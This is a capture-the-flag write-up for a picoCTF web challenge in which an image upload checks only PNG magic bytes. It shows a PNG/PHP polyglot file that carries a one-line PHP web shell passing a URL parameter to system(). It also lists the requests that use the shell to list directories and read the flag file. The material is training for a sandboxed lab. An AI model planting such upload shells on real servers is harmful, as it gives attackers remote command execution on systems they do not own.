 ## Challenge 🧩

I found a web app that can help process images: PNG images only!

Author: JUNIAS BONOU</br>
Points: 300

## Solution 🕵️‍♂️

Lets upload a [test.png](src/test.png) file to server.

To find out the route where the uploaded file is stored we can fuzz the directories or we can view `robots.txt` file

```text
User-agent: *
Disallow: /instructions.txt
Disallow: /uploads/
```

Lets read the `instructions.txt` file

```text
Let's create a web app for PNG Images processing.
It needs to:
Allow users to upload PNG images
   look for ".png" extension in the submitted files
   make sure the magic bytes match (not sure what this is exactly but wikipedia says that the first few bytes contain 'PNG' in hexadecimal: "50 4E 47" )
after validation, store the uploaded files so that the admin can retrieve them later and do the necessary processing.
```

Based on the instructions the web app only checks for PNG Magic bytes not the file extension, so we can craft png file with php shell

```png.php
‰PNG

   
IHDR         wSÞ   IDATWcøÿÿ? þþ§5„    IEND®B`‚
<?php echo "Shell";system($_GET['cmd']); ?>
```

![Trickster_upload](src/Trickster_upload.PNG)

Testing Connection by `uploads/test.png.php?cmd=pwd`

Listing contents of `/var/www/html` by `uploads/test.png.php?cmd=ls%20/var/www/html/`

![Trickster_ls](src/Trickster_ls.PNG)

Get the flag `uploads/test.png.php?cmd=cat%20/var/www/html/MFRDAZLDMUYDG.txt`

![Trickster_ls](src/Trickster_Flag.PNG)

## Flag 🚩

`picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_xxxxxxxx}`
